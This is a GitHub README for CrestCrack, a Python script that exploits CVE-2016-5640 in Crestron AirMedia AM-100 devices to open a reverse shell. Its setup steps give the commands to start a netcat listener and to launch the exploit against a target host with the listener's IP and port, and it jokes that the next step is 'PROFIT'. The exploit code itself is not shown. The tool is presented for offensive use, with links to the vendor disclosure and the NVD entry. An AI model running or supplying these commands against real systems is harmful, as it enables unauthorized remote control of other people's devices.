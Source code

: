 ![Supported Python versions](https://img.shields.io/badge/python-3.7-blue.svg)
# CrestCrack
CrestCrack is a simple script that exploits CVE-2016-5640 / CLVA-2016-05-002 within the Crestron AirMedia AM-100 (v1.1.1.11 - v1.2.1). When supplied with arguments CrestCrack will utilize netcat to create a reverse shell between your target and a netcat listener of your choice. 

## Setup:
1. Clone a copy of CrestCrack `git clone https://github.com/vpnguy/CrestCrack`
2. Launch a netcat listener `nc -lvp 1337`
3. Execute CrestCrack against your target with your listener info `./crestcrack.py https://targethost 255.255.255.255 1337`
4. ??????
5. **PROFIT**

###Usage:
**./crescrack.py *[target host] [listener IP] [listener port]***

###Example: 
**./crescrack.py https://targethost 123.123.123.123 3311**

 

## Additional Vulnerability Information:
[Cylance Vulnerability Disclosure](https://github.com/CylanceVulnResearch/disclosures/blob/master/CLVA-2016-05-002.md)

[NIST CVE-2016-5640](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5640)

## To be added:
- Error handling/bounds checking
- Enhanced argument support
- --help output

